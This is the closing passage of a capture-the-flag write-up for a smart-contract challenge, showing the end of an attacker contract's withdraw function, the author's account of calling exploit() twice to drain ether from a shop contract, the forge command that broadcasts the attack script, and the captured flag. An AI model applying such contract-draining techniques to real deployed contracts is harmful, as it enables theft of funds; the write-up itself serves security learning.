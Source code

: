 ```javascript
        require(msg.sender == owner);
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

idk why the `exploit()` function only giving me 110 ether then stop.  

so, i removed base condition of checking shop contract balance and called `exploit()` twice and got 220 ether.  

then i bought item 3 with 1337 ether.

```bash
source .env
```

```bash
forge script script/Attack.s.sol:AttackScript --rpc-url $RPC_URL --private-key $PRIVATE_KEY --broadcast
```

**Flag: n00bz{5h0uld_h4v3_sub7r4ct3d_f1r5t}**

---

Thank you for reading!
